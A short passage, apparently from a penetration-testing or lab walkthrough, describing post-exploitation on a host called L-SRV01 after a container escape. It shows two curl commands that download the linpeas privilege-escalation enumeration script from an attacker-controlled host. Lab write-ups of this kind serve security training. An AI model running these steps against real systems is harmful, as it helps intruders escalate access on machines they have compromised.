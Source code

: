
We have shell on L-SRV01 and escaped the container, we need to perform
local privilege escalation to gain root on the box.

Will download the linpeas script using the curl command.
```
curl -O http://10.50.104.169:8080/linpeas.sh
```


or save a file with specific name
```
curl -o enum.sh  http://10.50.104.169:8080/linpeas.sh
```

